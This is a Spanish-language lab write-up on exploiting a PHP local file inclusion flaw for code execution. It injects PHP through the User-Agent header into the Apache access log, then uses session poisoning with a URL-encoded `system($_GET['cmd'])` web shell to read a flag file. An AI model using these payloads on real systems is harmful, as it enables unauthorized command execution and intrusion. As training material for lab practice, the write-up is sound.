





# LFI: Log Poisoning -> RCE 👩‍💻

El laboratorio que vulneraremos es

* **(1)**: Tenemos un `PHPSESSID` con el cual podemos intentar un PHP Seesion Poisoning. 🦴
* **(2)**: Apunta a un recurso con el cual podremos intentar leer los **logs** 📃

---

Cambiamos la cabecera **`User-Agent`** con `<?php system('pwd'); ?>`

    

* Inyectamos el código **PHP** para intentar ejecutarlo al leer el archivo del log

Leemos el archivo `/var/log/apache2/access.log` (Aquí se almacenan los logs del servidor web)

    

---

Ahora listamos el contenido de la raiz `/`

    

Leemos nuevamente el archivo `/var/log/apache2/access.log`

    

---

Ahora aplicaremos `PHP Session Poisoning` para leer el archivo **flag**

* **URL:** `http://<IP Web>/index.php?language=/var/lib/php/sessions/sess_<PHPSESSID>`

Después de esto, 'guardaremos' un script en php urlencodeado, para ejecutar comandos:

* **URL:** `http://<IP Web>/index.php?language=%3C%3Fphp%20system%28%24_GET%5B%22cmd%22%5D%29%3B%3F%3E`

Por último leemos el archivo `flag`

* **URL:** `http://<IP Web>/index.php?language=/var/lib/php/sessions/sess_<PHPSESSID>&cmd=cat /[Flag].txt`

    

